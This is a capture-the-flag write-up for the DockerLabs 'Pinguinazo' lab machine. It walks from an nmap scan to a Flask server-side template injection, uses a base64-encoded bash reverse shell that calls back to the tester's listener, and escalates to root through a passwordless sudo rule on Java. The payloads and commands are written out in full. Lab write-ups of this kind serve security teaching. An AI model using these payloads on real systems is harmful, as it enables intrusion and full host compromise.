




# Pinguinazo

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| Pinguinazo | El Pingüino de Mario | easy | dockerlabs |

**Summary:** This assessment began with service discovery that exposed a Flask application on port 5000, then quickly moved into application logic testing where the PinguNombre input rendered user controlled template expressions without sanitization. A benign arithmetic probe confirmed Server Side Template Injection, after which Python object traversal reached builtins and imported `os` to execute system commands in process context. That execution path removed the need for credential theft because command execution was already obtained inside the target container, then a base64 wrapped reverse shell established an interactive foothold as `pinguinazo`. Internal enumeration with `sudo -l` revealed a passwordless Java binary, and that policy weakness enabled controlled process spawning through a custom Java class, producing a root shell and full host level compromise inside the machine scope.

---

## Recon

1. I deployed the Dockerlabs machine and captured the assigned target IP.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/pinguinazo]
└─$ sudo bash auto_deploy.sh pinguinazo.tar
[sudo] password for ouba:

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

2. I set quick target variables and ran a full TCP scan with default scripts and service version detection.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pinguinazo]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pinguinazo]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-17 20:54 WIB
Nmap scan report for picadilly.lab (172.17.0.2)
Host is up (0.000010s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-title: Pingu Flask Web
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.85 seconds
```



3. I tested template rendering in the `PinguNombre` field and validated injection by evaluating arithmetic server side.

```text
{{7*7}}
```



4. The application responded with `49`, which confirmed SSTI and established an execution primitive.

```text
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



---

## Initial Access

1. I prepared a listener on the attacker machine for reverse shell delivery.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pinguinazo]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

2. I used the SSTI execution channel to run a base64 decoded Bash payload and trigger the callback.

```text
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMS40NC4xMzMvNDQ0NCAwPiYx" | base64 -d | bash').read() }}
```

3. After the callback, I upgraded the TTY to a fully interactive shell.

```bash
connect to [172.21.44.133] from (UNKNOWN) [172.17.0.2] 35622
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
pinguinazo@1906c54ac29e:~$ which python3
which python3
/usr/bin/python3
pinguinazo@1906c54ac29e:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
pinguinazo@1906c54ac29e:~$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pinguinazo]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

pinguinazo@1906c54ac29e:~$ export SHELL=/bin/bash
pinguinazo@1906c54ac29e:~$ export TERM=xterm
pinguinazo@1906c54ac29e:~$ stty rows 77 cols 168
```

---

## PrivEsc

1. I enumerated sudo permissions and found a direct root execution path through Java.

```bash
pinguinazo@1906c54ac29e:~$ which sudo
/usr/bin/sudo
pinguinazo@1906c54ac29e:~$ sudo -l
Matching Defaults entries for pinguinazo on 1906c54ac29e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pinguinazo may run the following commands on 1906c54ac29e:
    (ALL) NOPASSWD: /usr/bin/java
```



2. I compiled a minimal Java launcher that spawns `/bin/sh`, then executed it with sudo to inherit root privileges.

```bash
pinguinazo@1906c54ac29e:~$ cat >Shell.java <<EOF
> public class Shell {
>     public static void main(String[] args) throws Exception {
>         new ProcessBuilder("/bin/sh").inheritIO().start().waitFor();
>     }
> }
> EOF
pinguinazo@1906c54ac29e:~$ javac Shell.java
pinguinazo@1906c54ac29e:~$ sudo java Shell
# /bin/bash
root@1906c54ac29e:/home/pinguinazo# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=0(root) groups=0(root)
root
1906c54ac29e
/home/pinguinazo
total 44
drwxr-x--- 1 pinguinazo pinguinazo 4096 Mar 17 15:07 .
drwxr-xr-x 1 root       root       4096 May 21  2024 ..
-rw------- 1 pinguinazo pinguinazo   33 May 21  2024 .bash_history
-rw-r--r-- 1 pinguinazo pinguinazo  220 May 21  2024 .bash_logout
-rw-r--r-- 1 pinguinazo pinguinazo 3771 May 21  2024 .bashrc
drwxrwxr-x 3 pinguinazo pinguinazo 4096 May 21  2024 .local
-rw-r--r-- 1 pinguinazo pinguinazo  807 May 21  2024 .profile
-rw-rw-r-- 1 pinguinazo pinguinazo  552 Mar 17 15:07 Shell.class
-rw-rw-r-- 1 pinguinazo pinguinazo  160 Mar 17 15:07 Shell.java
drwxrwxr-x 1 pinguinazo pinguinazo 4096 May 21  2024 flask_ssti_lab
```

---

## Attack Chain Summary
1. **Reconnaissance**: Full TCP scanning identified a single exposed Flask service on port 5000, which sharply focused testing on web input handling.
2. **Vulnerability Discovery**: Template evaluation probes in `PinguNombre` confirmed SSTI by returning evaluated arithmetic rather than literal input.
3. **Exploitation**: Python template object traversal imported `os`, executed commands, and delivered a reverse shell via base64 decoded Bash.
4. **Internal Enumeration**: Post exploitation host checks established shell stability and identified sudo policy configuration as the key escalation surface.
5. **Privilege Escalation**: Passwordless execution of `/usr/bin/java` allowed arbitrary process spawning as root through a custom Java class.

